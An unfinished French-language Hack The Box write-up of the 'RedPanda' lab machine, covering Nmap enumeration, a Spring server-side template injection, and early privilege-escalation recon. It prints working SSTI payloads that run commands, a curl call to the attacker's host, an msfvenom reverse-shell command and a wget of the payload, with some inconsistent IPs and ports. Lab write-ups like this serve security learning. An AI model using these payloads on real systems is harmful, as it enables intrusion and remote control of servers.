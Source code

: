 ```yaml
---
title:  "HacktheBox WriteUp : RedPanda"
category: HackTheBox
tag: writeups
---
```

RedPanda est une machine pour débutants basée sur une plateforme Linux.  
Niveau : Facile

## 1 - Enumeration Nmap

`sudo nmap 10.10.11.170/24`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-03 20:15 CET<>`
Nmap scan report for 10.10.11.170
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```
On voit que parmi les services disponible, un serveur web est actif sur le port 80.

## 2 - Enumeration Web
Après Exploration du site, on tombe sur une barre de recherche.
![RedPandaSearch](/assets/images/WriteUps/HackTheBox/redPanda/injection1.png){: width="500" style="display: block; margin: 0 auto"}

Celle-ci nous permet de trouver des utilisateurs qui ont un profil sur le site.
![redPandaProfil](/assets/images/WriteUps/HackTheBox/redPanda/injection2.png){: width="500" style="display: block; margin: 0 auto"}

### 2.1 - Découverte de SSTI (Server side template injection)

Puisque la page du profil de Greg nous parlait d'injection, on fait quelques tests.
Après quelques tests de type d'injections classiques (Sql, Xpath, ...).
On tombe sur une injection SSTI qui fonctionne avec `*{7*7}`.

![SSTIFinding](/assets/images/WriteUps/HackTheBox/redPanda/injection3.png){: width="500" style="display: block; margin: 0 auto"}

On sait maintenant de quel type d'injection il s'agit.

### 2.2 - Identification du framework

Maintenant qu'on sait qu'il s'agit d'une injection de template, il s'agirait d'identifier lequel.
Parmi toutes les commandes testées pour la SSTI, `*{7*'7'}` a donné un `Whitelabel Error Page`.  

![templateIdentif](/assets/images/WriteUps/HackTheBox/redPanda/framework.png){: width="500" style="display: block; margin: 0 auto"}


Après quelques recherches sur google, on tombe sur le site [spring template](https://zetcode.com/springboot/whitelabelerror/), nous indiquant qu'il s'agit du template Spring, un framework populaire pour les applications java.   
On trouve sur [Hacktrics](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) la commande 
``` 
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())
```
utilisée pour ce framework. 

### 2.3 - Etablissement d'un serveur http et connection
On peut maintenant exécuter des requêtes à distance à partir de la barre de recherche.
On instancie un serveur http sur notre kali.

![httpServeur](/assets/images/WriteUps/HackTheBox/redPanda/createServer.png){: width="500" style="display: block; margin: 0 auto"}


Nous testons l'accessibilité de notre serveur web (10.10.11.168) depuis le serveur web de la box (10.10.11.170)
à partir de la barre de recherchee.
Requête : 
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.11.168').getInputStream())}
```   
Reponse du serveur : 
![serveurRes](/assets/images/WriteUps/HackTheBox/redPanda/serverResponse.png){: width="500" style="display: block; margin: 0 auto"}


### 2.4 - ReverseShell
- Nous utilisons msfvenom pour générer un reverse shell en direction de notre serveur web (10.10.14.103):  
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.103 LPORT=443 -f elf > blabla.elf
```  
- Nous déplaçons le reverseShell (blabla.elf) dans le dossier depuis lequel nous exécutons notre serveur web.
- Nous exécutons un netcat sur le port 443 (sur la kali) afin d'accueillir la futur connection du reverse shell.  
- Depuis la machine cible (donc sur la barre de recherche), nous exécutons un wget de blabla.elf et l'exécutons afin de se connecter au netcat en écoute.

Après cela, nous faisons en sorte d'avoir un "meilleur shell" (voir [référence](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) et de récupérer le flag user qui
est présent sur le répertoire courant.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(wget  10.10.14.168/blabla.elf').getInputStream())}
```

![netcatKali](/assets/images/WriteUps/HackTheBox/redPanda/flagUser.png){: width="500" style="display: block; margin: 0 auto"}

## Élévation de privilèges

Nous utilisons l'outil [pspy64s](https://github.com/DominicBreuker/pspy) pour regarder les processus qui tournent sur la machine.
```
woodenk@redpanda:/home/woodenk$ cd /tmp
woodenk@redpanda:/tmp$ wget 10.10.14.103/pspy64s
woodenk@redpanda:/tmp$ chmod +x ./pspy64s
woodenk@redpanda:/tmp$ ./pspy64
```

Nous voyons un jar, que nous récupérons sur notre kali (en utilisant un serveur web sur /tmp sur la machine cible).

 <img src="/assets/images/WriteUps/HackTheBox/redPanda/jarcredits.png" width="1200px" height="600px"/>
Nous pouvons ouvrir le jar avec [jd-gui](http://java-decompiler.github.io/)

En recherchant dans les fichiers, on trouve un fichier "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java"
qui contient des identifiants qui sont utilisables en ssh :  

<img src="/assets/images/WriteUps/HackTheBox/redPanda/passwordMainController.png" width="1200px" height="600px"/>

À continuer ...

## Références
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://github.com/DominicBreuker/pspy
- http://java-decompiler.github.io/
